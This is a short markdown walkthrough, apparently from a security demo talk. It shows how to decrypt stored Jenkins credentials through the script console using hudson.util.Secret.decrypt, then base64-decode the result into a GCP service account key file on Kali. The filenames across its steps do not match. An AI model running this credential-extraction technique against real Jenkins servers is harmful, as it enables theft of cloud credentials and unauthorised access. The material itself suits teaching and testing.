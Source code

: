 # Jenkins Decrypt
Now that we're in Jenkins, we'll look a bit around

## Secrets
There are predefined secrets.
Some maybe used for Terraform
Lets decrypt them

### Get the secret
Open 
```
http://jenkins.test.nevervictimconsult.xyz/script
```
and start following script
```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```
where `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` is the encrypted content of the `<password>` or `<passphrase>` XML element that you are looking for.
And in order to get the password value of `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` go to credentials, update, in the browser "See source code" and you will get the encrypted password in the data field for password. Then use that function.

What you got is the base64 encoded json string for authenticating to GCP.
Next up: decode it.

### decode
Paste it into Kali

```bash
mkdir -p /root/demotalk/cloudAccess
cd /root/demotalk/cloudAccess
nano encoded.json
```

paste the string into `encrypted.json` and decode it then

```bash
cd /root/demotalk/cloudAccess
cat encode.json | base64 --decode > gcpSa.json
```
